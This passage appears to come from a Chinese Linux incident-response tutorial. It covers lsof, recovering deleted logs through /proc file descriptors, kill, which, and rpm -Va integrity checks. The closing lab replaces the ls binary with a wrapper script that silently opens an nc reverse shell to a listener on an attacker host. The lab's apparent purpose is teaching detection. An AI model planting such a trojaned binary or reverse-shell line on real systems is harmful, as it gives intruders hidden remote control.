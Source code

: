 ```
lsof 1.txt           	#查看哪些进程打开了1.txt文件
lsof -c sshd         	#查看sshd服务所打开的文件
lsof -i :22          	#查看22端口有哪些进程在访问
lsof -p 1168         	#查看1168进程号所打开的文件
lsof -u 0            	#查看uid为0的用户打开的文件
lsof|grep /var/log/  	#查看/var/log/下的文件被哪些进程打开
```

## 6.2 利用 lsof 命令恢复已删除的文件

需要恢复已删除的文件前提条件是还有进程打开这个文件，比如遭到入侵往往总是会删除一些日志、木马文件等，假设我们ssh的登录日志被删除了，我们使用`lsof`查看，可以看到最后面有（deleted）这个状态。

`lsof |grep /var/log/messages`这里pid对应的是699，所以我们需要查看699进程打开的文件描述。

```
cd /proc/699/fd
```

再使用`ll`查看就可以看到被删除对应的文件了，文件7对应的就是被删除的文件，将7里面的内容输入到被删除的目录文件就恢复了

`cp 7 /var/log`拷贝这个文件。

# 7. kill

`kill`命令用于结束进程。

```
kill -9 123456			杀死进程号为123456的进程
```

# 8. which

which用于查找并显示给定命令的绝对路径，可以看到某个系统命令是否存在

# 9. rpm -Va

与源对比，检查文件完整性

`yum -y install nc`

**实验**

```
#!/bin/bash
/opt/ls $*
nc 192.168.10.96 2000 -e /bin/bash >/dev/null 2>&1			受害机

ls移动到/opt , 写ls给执行权限替换
```

```
nc -lvp 2000												攻击机
```
